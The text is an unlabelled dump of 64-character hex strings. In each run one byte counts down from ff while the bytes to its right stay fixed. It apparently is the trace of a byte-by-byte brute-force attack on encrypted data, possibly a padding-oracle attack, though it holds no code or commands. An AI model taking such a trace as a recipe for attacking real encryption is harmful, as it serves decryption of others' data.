00000000000000000000567430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000557430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000547430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000537430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000527430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000517430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000507430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000004f7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ff4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000fe4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000fd4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000fc4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000fb4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000fa4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f94e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f84e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f74e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f64e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f54e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f44e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f34e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f24e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f14e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000f04e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ef4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ee4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ed4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ec4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000eb4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ea4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e94e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e84e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e74e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e64e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e54e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e44e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e34e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e24e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e14e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000e04e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000df4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000de4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000dd4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000dc4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000db4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000da4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d94e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d84e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d74e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d64e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d54e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d44e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d34e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d24e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d14e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000d04e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000cf4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ce4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000cd4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000cc4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000cb4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ca4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c94e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c84e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c74e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c64e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c54e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c44e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c34e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c24e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c14e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000c04e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000bf4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000be4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000bd4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000bc4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000bb4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ba4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b94e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b84e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b74e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b64e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b54e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b44e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b34e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b24e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b14e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000b04e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000af4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ae4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ad4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ac4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000ab4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000aa4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a94e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a84e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a74e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a64e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a54e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a44e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a34e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a24e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a14e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000a04e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000009f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000009e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000009d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000009c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000009b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000009a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000994e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000984e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000974e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000964e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000954e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000944e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000934e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000924e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000914e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000904e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000008f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000008e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000008d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000008c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000008b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000008a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000894e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000884e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000874e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000864e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000854e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000844e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000834e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000824e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000814e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000804e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000007f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000007e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000007d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000007c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000007b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000007a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000794e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000784e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000774e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000764e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000754e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000744e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000734e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000724e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000714e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000704e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000006f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000006e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000006d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000006c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000006b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000006a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000694e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000684e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000674e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000664e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000654e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000644e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000634e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000624e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000614e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000604e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000005f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000005e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000005d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000005c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000005b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000005a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000594e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000584e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000574e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000564e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000554e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000544e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000534e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000524e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000514e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000504e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000004f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000004e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000004d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000004c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000004b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000004a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000494e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000484e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000474e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000464e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000454e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000444e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000434e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000424e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000414e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000404e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000003f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000003e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000003d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000003c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000003b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000003a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000394e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000384e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000374e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000364e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000354e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000344e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000334e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000324e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000314e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000304e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000002f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000002e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000002d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000002c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000002b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000002a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000294e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000284e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000274e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000264e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000254e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000244e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000234e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000224e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000214e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000204e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000001f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000001e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000001d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000001c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000001b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000001a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000194e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000184e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000174e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000164e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000154e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000144e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000134e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000124e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000114e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000104e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000f4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000e4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000d4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000c4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000b4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000a4e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000094e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000084e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000074e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000064e7531d3bbb054f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ff09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000fe09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000fd09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000fc09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000fb09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000fa09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f909417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f809417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f709417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f609417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f509417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f409417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f309417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f209417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f109417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000f009417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ef09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ee09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ed09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ec09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000eb09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ea09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e909417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e809417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e709417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e609417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e509417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e409417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e309417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e209417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e109417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000e009417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000df09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000de09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000dd09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000dc09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000db09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000da09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d909417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d809417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d709417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d609417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d509417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d409417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d309417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d209417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d109417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000d009417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000cf09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ce09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000cd09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000cc09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000cb09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ca09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c909417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c809417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c709417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c609417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c509417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c409417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c309417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c209417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c109417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000c009417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000bf09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000be09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000bd09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000bc09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000bb09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ba09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b909417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b809417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b709417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b609417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b509417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b409417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b309417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b209417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b109417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000b009417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000af09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ae09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ad09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ac09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000ab09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000aa09417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a909417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a809417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a709417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a609417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a509417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a409417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a309417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a209417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000a109417a3edcb4bf54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000ffa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
